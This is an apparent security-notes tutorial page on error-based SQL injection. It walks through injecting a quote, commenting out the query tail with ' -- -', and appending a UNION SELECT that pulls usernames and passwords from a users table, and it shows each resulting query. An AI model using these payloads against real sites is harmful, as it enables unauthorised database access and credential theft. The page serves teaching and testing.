 # Error-based SQLi

[Go back](../sql.md)

<div class="row row-cols-lg-2"><div>

Error-based is the simplest SQL injection. It's an injection in which DBMS errors are displayed to the user.

The hacker can easily use the output to tweak the payload until they get what they want.
</div><div>
</div></div>

<hr class="sep-both">

## Error-based SQLi Explained

<div class="row row-cols-lg-2"><div>

1. We usually start with injecting a quote `'`:

```sql!
Select name,desc from product where name LIKE '%'%'
```

☠️ The query fails because of the syntax is invalid, due to the trailing "`%'`", but we now know that an injection is possible.

<br>

2. We then comment out the rest of the query using `' --`.

```sql!
Select name,desc from product where name LIKE '%' --%'
```

☠️ The code above may not work in some DBMS, because they want a space between the start of a comment, and the comment itself.
</div><div>

3. We add a space giving us the payload `' -- -`

```sql!
Select name,desc from product where name LIKE '%' -- -%'
```

✅ Between `'` and `-- -`, we can write **any** SQL code, through the syntax of the final query must be valid ✌️.

For instance, we could use `xxx' UNION Select username,password FROM users -- -` to get the list of usernames/passwords.

```sql!
Select name,desc from product where name LIKE '%' UNION Select username,password FROM users -- -%'
```

Refers to union-based payloads.
</div></div>